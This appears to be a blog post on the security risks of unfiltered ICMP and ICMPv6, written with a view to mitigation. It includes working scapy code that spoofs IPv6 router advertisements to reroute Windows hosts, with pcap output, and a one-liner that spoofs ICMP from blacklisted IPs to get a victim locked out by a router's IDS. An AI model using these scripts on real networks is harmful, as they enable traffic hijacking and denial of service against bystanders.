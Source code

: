 +++
Title = "Should I enable ICMP? (Pt. 1)"
Date = "2023-01-15T23:20:20-0800"
Author = "Paige"
Description = "Some thoughts on my experiences and in response to shouldiblockicmp.com"
cover = "img/og.png"
+++

> Yes!

# hold up...

Awhile ago I read an article called [Should I block ICMP](http://shouldiblockicmp.com)? The sentiment is pretty much in line with my own which is that ICMP is entirely necesarry for a variety of reasons especially in IPv6. Unfortunately my experience tells me that ICMP presents a lot of security problems when left unchecked and it's mostly or entirely left unchecked everywhere I've seen it left on. This will be an attempt to analyze some of the problems and present some insight as to how to mitigate some of the problems.

# IPv6 ND_RA

I have been most interested in this one for awhile. Router advertisements are really useful, but the deployment of IPv6 and it's reception has met with strong resistance and a disjointed comprehension of the theory behind things like router advertisements. Here is an example of how to abuse it using the scapy framework in python:

{{< highlight python >}}
from scapy.all import *
from ipaddress import IPv6Network

sendp((lambda lladdr, llsrc, lldst, prefixlen, prefix: Ether(dst = lldst, src = llsrc) 
/ IPv6(src = lladdr) / ICMPv6ND_RA() / ICMPv6NDOptSrcLLAddr(lladdr = llsrc) / ICMPv6NDOptMTU() 
/ ICMPv6NDOptPrefixInfo(prefixlen=prefixlen, prefix=prefix) / ICMPv6NDOptRouteInfo(prf = 1, plen = 3, 
prefix = "2000::", rtlifetime = 0xffffffff))("fe80::4398:6d2e:c5ca:cb73", "c0:3c:59:ed:e3:1f", 
"9c:b6:d0:3f:72:96", 64, next(IPv6Network("fc00:1d13:f001::/48").subnets(64)).network_address), count = 16)
{{< / highlight >}}

To clarify, this is a router advertisement spoofed as another computer as the source, to a windows machine as it's destination. Here's a complete breakdown of the assumptions and what it does: 

- Is able to send a spoofed ethernet header (mac address spoofing)
- Is able to send unfiltered router advertisements to ff02::1
- It relies on the fact that the host that it's being sent to will automatically accept the address that is advertised
(SLAAC)
- The spoofed source mac address is: c0:3c:59:ed:e3:1f
- The spoofed layer 3 link local source address is: fe80::4398:6d2e:c5ca:cb73
- The destination mac address is: 9c:b6:d0:3f:72:96
- The destination layer 3 address is: `ff02::1` (Link-Local multicast all-nodes address)
- Both clients are connected to a wireless access point that is connected to a UDM Pro
- The filtering characteristics of the wireless access point are unknown 
- The UDM pro is configured without filtering (no IGMP snooping or ND_RA filtering.)

From the sender's perspective, the pcap of what they're sending will look like this: 

```
 00:00:00.000664 c0:3c:59:ed:e3:1f > 9c:b6:d0:3f:72:96, ethertype IPv6 (0x86dd), length 142: (hlim 255, next-header ICMPv6 (58) payload length: 88) fe80::4398:6d2e:c5ca:cb73 > ff02::1: [icmp6 sum ok] ICMP6, router advertisement, length 88
    hop limit 0, Flags [none], pref high, router lifetime 1800s, reachable time 0ms, retrans timer 0ms
      source link-address option (1), length 8 (1): c0:3c:59:ed:e3:1f
        0x0000:  c03c 59ed e31f
      mtu option (5), length 8 (1):  1280
        0x0000:  0000 0000 0500
      prefix info option (3), length 32 (4): fc00:1d13:f001::/64, Flags [onlink, auto], valid time infinity, pref. time infinity
        0x0000:  40c0 ffff ffff ffff ffff 0000 0000 fc00
        0x0010:  1d13 f001 0000 0000 0000 0000 0000
      route info option (24), length 24 (3):  2000::/3, pref=high, lifetime=infinity
        0x0000:  0308 ffff ffff 2000 0000 0000 0000 0000
        0x0010:  0000 0000 0000
    0x0000:  9cb6 d03f 7296 c03c 59ed e31f 86dd 6000  ...?r..<Y.....`.
    0x0010:  0000 0058 3aff fe80 0000 0000 0000 4398  ...X:.........C.
    0x0020:  6d2e c5ca cb73 ff02 0000 0000 0000 0000  m....s..........
    0x0030:  0000 0000 0001 8600 a2a1 0008 0708 0000  ................
    0x0040:  0000 0000 0000 0101 c03c 59ed e31f 0501  .........<Y.....
    0x0050:  0000 0000 0500 0304 40c0 ffff ffff ffff  ........@.......
    0x0060:  ffff 0000 0000 fc00 1d13 f001 0000 0000  ................
    0x0070:  0000 0000 0000 1803 0308 ffff ffff 2000  ................
    0x0080:  0000 0000 0000 0000 0000 0000 0000       ..............
    ```
```

And the result is it 100% works. The recipient sees essentially the same. Modern Windows 10 and 11 machines with IPv6 enabled will have SLAAC enabled by default. The client has now
configured the delegated prefix fc00:1d13:f001::/64 for itself and configured fe80::4398:6d2e:c5ca:cb73 as the gateway for 2000::/3.

- It might be worth noting that traffic destined for ff02::1 generally specifies a destination MAC address of [33:33:00:00:00:01](https://en.wikipedia.org/wiki/Multicast_address#Ethernet)

# Thrown under the IDS

UDM pro has some nifty security options for detecting suspicious network activity and locking out specific client or completely locking down the network. It might be possible to influence this behavior by eliciting an ICMP reply from a target to a blacklisted address:

{{< highlight python >}}
curl -s http://rules.emergingthreats.net/blockrules/compromised-ips.txt | shuf | sudo python3 -c 'import sys; 
from scapy.all import *; (lambda z, target, smac, dmac: [sendp(Ether(dst = dmac, src = smac)/IP(src = x.strip(), 
dst = target)/ICMP(id = y - 10000, seq = y - 10000)) for x, y in zip(z, range(10000, 10000 + 
len(z)))])(sys.stdin.readlines(), "192.168.1.12", "ff:ff:ff:ff:ff:ff", "9c:b6:d0:3f:72:96")'
{{< / highlight >}}

- 192.168.1.12 has a MAC address of 9c:b6:d0:3f:72:96 and it is the target of this attack
- Each IP in the compromised-ips.txt is paired with a unique id number (up to 10000 or less if there are fewer than 10000 IP addresses), and a packet is sent for each IP to 192.168.1.12 for each of the addresses as the source address. 
- The client receives this and sends a reply to the spoofed address
- The router receives the reply sent to the malicious address and locks out the client

# There's a lot to think about 

- This can also be accomplished with TCP SYN causing a client to ACK @ a spoofed address. 

The same is true for UDP. For internet routers, networks have to implement [BCP38 practices](https://www.ietf.org/rfc/bcp/bcp38.html) to prevent packet spoofing but is often overlooked or in-actionable due to [scalability problems](https://ripe58.ripe.net/content/presentations/bgp-scaling-considerations.pdf). To be fair, the problem arises when a user decides to send a packet with the target of an attack's IP address specified as the source address to a large number of hosts; a small UDP packet it sent with a spoofed address to a destination and the destination sends a much larger response UDP packet to the specified source address--amplification attacks. 

- Global Unicast Addresses (GUAs) in IPv6 are "globally scoped" addresses. 

ISP's cannot legally delegate a prefix smaller than a /64, but even if they did, a /64 is an incomprehensible amount of address space (18,446,744,073,709,551,616 addresses.) It's actually wasteful to configure each host with a /64. Neighbor Discovery Protocol is essential 
to making use of the entire addressable range of a /64. Essentially, the router is delegated the /64, and leases addresses from this block to clients on a network using DHCPv6 and/or SLAAC. NDP is comprised of ICMPv6 type 133, 134, 135, 136, 137. Types 133, 135, and 136 must be unrestricted to fe80::/10 and to the /64 itself which isn't known until it is delegated by the ISP so this presents a chicken and egg problem for creating firewall rules; unless you can specify [hop count / next hop criteria](https://wiki.nftables.org/wiki-nftables/index.php/Matching_routing_information) for filtering ICMPv6.

GUA addresses are internet routable addresses. This presents a problem for people in terms of adoption of IPv6 because in general people tend to think about security in terms of this world vs. the world. Consequently, the world poeple will create calls for no solution that doesn't solve the problem. I won't say that configuring a firewall on everything is a reasonable solution, but I'm not saying that it isn't either.

Amazon came up with a way to describe a solution to make IPv6 meet half way with the fundamental way that people think about networking security called [Egress-only Gateways](https://docs.aws.amazon.com/vpc/latest/userguide/egress-only-internet-gateway.html). It's not a concept that is unique to Amazon. I'm not aware of a way this can be accomplished with BGP, this is undoubtedly made possible using a stateful firewall which for a lot of people remains a [scalability problem](https://people.netfilter.org/kadlec/nftest.pdf).

The unfortunate truth is that it's [never going to not be a scalability problem](https://en.wikipedia.org/wiki/Time_complexity). But there's a lot you can do now, that you haven't always been able to do with stateful firewalls as I've outlined in my [presentation on NFTables](https://paige.bio/nftables_presentation) such as [Flowtables](https://wiki.nftables.org/wiki-nftables/index.php/Flowtables). Another fantastic advantage of NFTables is the flexibility of the language itself to better realize the complexities of stateful queuing and measuring traffic as well as dynamically making adjustments based on measured traffic. 

For part 2, I'd like to cover some of the lesser known aspects of ICMP. Things like admin-prohibited and what they should mean but also why it's not as simple as just letting it be a REJECT as well as ways you can counter abuse. This is a topic I've been wanting to cover for a long time, but it's going to take awhile. 

